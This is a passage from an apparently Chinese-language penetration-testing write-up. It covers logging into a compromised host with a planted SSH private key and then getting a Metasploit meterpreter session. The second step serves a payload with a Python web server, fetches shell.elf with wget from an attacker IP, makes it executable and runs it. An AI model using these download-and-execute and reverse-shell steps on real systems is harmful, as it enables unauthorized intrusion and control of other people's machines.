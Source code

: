 ------

### 免密登录

此时，可以利用自己的私钥进行免密码登录目标宿主机

ssh -i cyshack [ubuntu@192.168.47.136](mailto:ubuntu@192.168.47.136)

![img](assets/1695035079638-502ff348-365b-43df-be6f-5824e260a0ae.png)

------

# 反弹宿主机权限到MSF

还是可以用wget进行下载木马，在msf设置监听获取meterpreter

```
python -m SimpleHTTPServer //启动web服务 wget http://192.168.47.128:8000/shell.elf Chmod 777 shell.elf   //权限 ./shell.elf     //执行
```

![img](assets/1695035079900-abd282f6-1a7f-4bc6-9521-73eedb1f1b36.png)